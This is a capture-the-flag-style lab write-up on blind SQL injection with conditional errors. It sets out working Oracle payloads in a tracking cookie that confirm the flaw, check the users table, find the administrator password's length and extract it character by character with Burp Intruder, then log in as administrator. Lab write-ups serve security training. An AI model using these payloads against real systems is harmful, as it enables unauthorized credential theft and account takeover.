




# Blind SQL Injection with Conditional Errors

## Lab Overview

**Level:** PRACTITIONER
**Status:** ✅ Solved
**Objective:** Perform a blind SQL injection attack using conditional errors to extract the administrator password and authenticate as the administrator user.

## Vulnerability Details

The application contains a **blind SQL injection vulnerability** in the tracking cookie used for analytics. The application performs a SQL query containing the value of the submitted cookie, but the results are not returned to the user.

**Key Difference:** Unlike conditional responses, this lab uses **conditional errors** - the application returns a custom error message when the SQL query causes an error, but responds normally when the query is valid.

**Target:** Tracking cookie (`TrackingId`)
**Injection Point:** Cookie parameter
**Detection Method:** Error responses (presence/absence of error messages)
**Database:** Oracle (uses DUAL table)
**Goal:** Extract administrator password and authenticate

## Solution Steps

### Step 1: Verify Blind SQL Injection Vulnerability

Testing for SQL syntax errors to confirm the injection point.

**Initial Cookie Value:**
```
TrackingId=UgKz1orRXPh9Tcs9
```

**Testing for SQL Injection:**
```sql
TrackingId=UgKz1orRXPh9Tcs9'
```
**Result:** ❌ Error message received (unclosed quote causes syntax error)



**Testing Error Resolution:**
```sql
TrackingId=UgKz1orRXPh9Tcs9''
```
**Result:** ✅ No error (quotes are properly closed)


### Step 2: Confirm Oracle Database

Testing for Oracle-specific syntax to identify the database type.

**Testing Basic Subquery:**
```sql
TrackingId=UgKz1orRXPh9Tcs9'||(SELECT '')||'
```
**Result:** ❌ Error (Oracle requires table specification)


**Testing Oracle DUAL Table:**
```sql
TrackingId=UgKz1orRXPh9Tcs9'||(SELECT '' FROM dual)||'
```
**Result:** ✅ No error (Oracle database confirmed)


**Testing Invalid Table:**
```sql
TrackingId=UgKz1orRXPh9Tcs9'||(SELECT '' FROM not-a-real-table)||'
```
**Result:** ❌ Error (confirms SQL injection is working)


### Step 3: Confirm Database Structure

Verifying the existence of the `users` table and `administrator` user.

**Users Table Existence Test:**
```sql
TrackingId=UgKz1orRXPh9Tcs9'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```
**Result:** ✅ No error (users table exists)


**Administrator User Test:**
```sql
TrackingId=UgKz1orRXPh9Tcs9'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
**Result:** ❌ Error received (condition is true, divide-by-zero triggered)


### Step 4: Determine Password Length

Using conditional errors to determine password length through binary search.

**Testing Length > 1:**
```sql
TrackingId=UgKz1orRXPh9Tcs9'||(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
**Result:** ❌ Error (password > 1 character)

**Testing Length > 19:**
```sql
TrackingId=UgKz1orRXPh9Tcs9'||(SELECT CASE WHEN LENGTH(password)>19 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
**Result:** ❌ Error (password > 19 characters)

**Testing Length > 20:**
```sql
TrackingId=UgKz1orRXPh9Tcs9'||(SELECT CASE WHEN LENGTH(password)>20 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
**Result:** ✅ No error (password is NOT > 20 characters)


**Final Result:** Password length is **20 characters**

### Step 5: Extract Password Characters

Using Burp Intruder to systematically extract each character by triggering conditional errors.

**Burp Intruder Setup:**
- **Cookie Payload:**
```sql
TrackingId=UgKz1orRXPh9Tcs9'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

- **Payload Position:** Around the final `'a` character
- **Payload Type:** Simple list (a-z, 0-9)
- **Error Detection:** HTTP 500 status codes

**Intruder Configuration:**
```
TrackingId=UgKz1orRXPh9Tcs9'||(SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

**Attack Process:**
1. Position 1: Test all characters (a-z, 0-9)
2. Find character that returns HTTP 500 error
3. Repeat for positions 2-20





**Extracted Password:** qjb57yrmswvzscoqxmoh

**Character Mapping:** Position 1=q, 2=j, 3=b, 4=5, 5=7, 6=y, 7=r, 8=m, 9=s, 10=w, 11=v, 12=z, 13=s, 14=c, 15=o, 16=q, 17=x, 18=m, 19=o, 20=h

### Step 6: Authenticate as Administrator

Using the extracted password to log in as the administrator user.

**Login Credentials:**
- Username: administrator
- Password: qjb57yrmswvzscoqxmoh

**Result:** ✅ Successfully authenticated as administrator



## Lab Completion

✅ **Lab Status: SOLVED**

The lab is completed when:
- Successfully identify the blind SQL injection vulnerability using conditional errors
- Confirm Oracle database and users table structure
- Determine password length (20 characters)
- Extract all 20 characters of the administrator password using Burp Intruder
- Authenticate as the administrator user

## Key Commands Used

```sql
-- Basic injection test
TrackingId=UgKz1orRXPh9Tcs9'

-- Oracle database confirmation
TrackingId=UgKz1orRXPh9Tcs9'||(SELECT '' FROM dual)||'

-- Character extraction payload
TrackingId=UgKz1orRXPh9Tcs9'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

## Notes

- **Error-based Detection:** HTTP 500 = condition true, HTTP 200 = condition false
- **Oracle Specifics:** Required DUAL table for SELECT statements, ROWNUM for limiting results
- **Divide-by-zero:** `TO_CHAR(1/0)` triggers the detectable error
- **Systematic Approach:** Length determination → Character-by-character extraction → Authentication
